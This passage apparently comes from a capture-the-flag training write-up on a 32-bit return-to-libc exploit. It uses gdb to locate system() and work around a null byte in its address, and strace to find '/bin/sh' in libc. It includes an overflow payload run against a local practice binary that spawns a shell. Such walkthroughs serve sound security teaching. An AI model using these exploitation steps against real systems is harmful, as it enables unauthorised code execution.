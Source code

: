 ```
(gdb) x/i system
   0xf7dfe200 <system>:	sub    $0xc,%esp
```

It is located at 
0xf7dfe200
but this is a problem! We can not use this value directly, as it contains a null-byte.

There are two approaches to take here, either we realize that the `sub 0xc` just means that we can skip this instruction and add 12 bytes of padding before our arguments, or we can look what instructions there are before system.

```
(gdb) x/3i system - 1
   0xf7dfe1ff:	add    %al,0x448b0cec(%ebx)
   0xf7dfe205 <system+5>:	and    $0x10,%al
   0xf7dfe207 <system+7>:	call   0xf7ef837d
(gdb) x/3i system - 2
   0xf7dfe1fe:	add    %al,%es:0x448b0cec(%ebx)
   0xf7dfe205 <system+5>:	and    $0x10,%al
   0xf7dfe207 <system+7>:	call   0xf7ef837d
(gdb) x/3i system - 3
   0xf7dfe1fd:	je     0xf7dfe225 <system+37>
   0xf7dfe1ff:	add    %al,0x448b0cec(%ebx)
   0xf7dfe205 <system+5>:	and    $0x10,%al
(gdb) x/3i system - 4
   0xf7dfe1fc:	lea    0x0(%esi,%eiz,1),%esi
   0xf7dfe200 <system>:	sub    $0xc,%esp
   0xf7dfe203 <system+3>:	mov    0x10(%esp),%eax
(gdb) 
```

It is safe to jump to the location 0xf7dfe1fc, four bytes before `system`, as the instruction `lea    0x0(%esi,%eiz,1),%esi` only overwrites the esi register, which we dont need.

Next, we need to find the offset of "/bin/sh" in libc.
There are several ways, but as we can use the command `strace` to monitor the exploit of the simpler program.

Usually, `strace` prints out strings, but it can be told to print the raw pointer values with the `-e` flag. We can run `strace` twice and see where `"/bin/sh"` is located.

```
$ strace -f -o tmp.log /home/larsh/Desktop/ctftraining/evolution/1_nx_stack_win $'AAAABBBBCCCCDDDDEEEEFFFF\x36\x84\x04\x08' < /dev/null
Segmentation fault
$ grep execve tmp.log
5652  execve("/home/larsh/Desktop/ctftraining/evolution/1_nx_stack_win", ["/home/larsh/Desktop/ctftraining/"..., "AAAABBBBCCCCDDDDEEEEFFFF6\204\4\10"], 0x7ffdc0be9460 /* 54 vars */) = 0
5653  execve("/bin/sh", ["sh", "-c", "/bin/bash"], 0xffcf7850 /* 54 vars */) = 0
5654  execve("/bin/bash", ["/bin/bash"], 0x557eab781e58 /* 54 vars */) = 0
$ strace -e raw=execve -f -o tmp.log /home/larsh/Desktop/ctftraining/evolution/1_nx_stack_win $'AAAABBBBCCCCDDDDEEEEFFFF\x36\x84\x04\x08' < /dev/null
Segmentation fault
$ grep execve tmp.log
5658  execve(0x7ffe5566f760, 0x7ffe55670bc8, 0x7ffe55670be0) = 0
5659  execve(0xf7f280cf, 0xff8cc3c4, 0xff8cc5b0) = 0
5660  execve(0x55b313578af8, 0x55b313578b20, 0x55b314c2ee58) = 0
```
